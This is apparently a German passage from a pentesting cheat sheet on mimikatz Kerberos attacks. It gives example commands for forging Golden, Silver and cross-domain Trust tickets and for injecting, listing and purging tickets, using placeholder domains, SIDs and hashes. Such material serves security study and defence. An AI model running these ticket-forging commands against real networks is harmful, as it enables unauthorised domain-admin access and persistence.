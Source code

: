 Beispiel:
```bash
mimikatz "kerberos::golden /user:admin /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /krbtgt:ntlmhash /ptt" exit
```
### Silver Ticket Erstellung

Silver Tickets gewähren Zugriff auf spezifische Dienste. Wichtiger Befehl und Parameter:

- Befehl: Ähnlich wie Golden Ticket, zielt aber auf spezifische Dienste ab.
- Parameter:
- `/service`: Der Dienst, der angegriffen werden soll (z.B. cifs, http).
- Andere Parameter ähnlich wie bei Golden Ticket.

Beispiel:
```bash
mimikatz "kerberos::golden /user:user /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /target:service.example.com /service:cifs /rc4:ntlmhash /ptt" exit
```
### Trust Ticket Creation

Trust Tickets werden verwendet, um auf Ressourcen über Domänen hinweg zuzugreifen, indem Vertrauensverhältnisse genutzt werden. Wichtiger Befehl und Parameter:

- Befehl: Ähnlich wie Golden Ticket, aber für Vertrauensverhältnisse.
- Parameter:
- `/target`: Der FQDN der Ziel-Domäne.
- `/rc4`: Der NTLM-Hash für das Vertrauenskonto.

Beispiel:
```bash
mimikatz "kerberos::golden /domain:child.example.com /sid:S-1-5-21-123456789-123456789-123456789 /sids:S-1-5-21-987654321-987654321-987654321-519 /rc4:ntlmhash /user:admin /service:krbtgt /target:parent.example.com /ptt" exit
```
### Zusätzliche Kerberos-Befehle

- **Tickets auflisten**:
- Befehl: `kerberos::list`
- Listet alle Kerberos-Tickets für die aktuelle Benutzersitzung auf.

- **Cache übergeben**:
- Befehl: `kerberos::ptc`
- Injiziert Kerberos-Tickets aus Cache-Dateien.
- Beispiel: `mimikatz "kerberos::ptc /ticket:ticket.kirbi" exit`

- **Ticket übergeben**:
- Befehl: `kerberos::ptt`
- Ermöglicht die Verwendung eines Kerberos-Tickets in einer anderen Sitzung.
- Beispiel: `mimikatz "kerberos::ptt /ticket:ticket.kirbi" exit`

- **Tickets löschen**:
- Befehl: `kerberos::purge`
- Löscht alle Kerberos-Tickets aus der Sitzung.
- Nützlich vor der Verwendung von Ticketmanipulationsbefehlen, um Konflikte zu vermeiden.
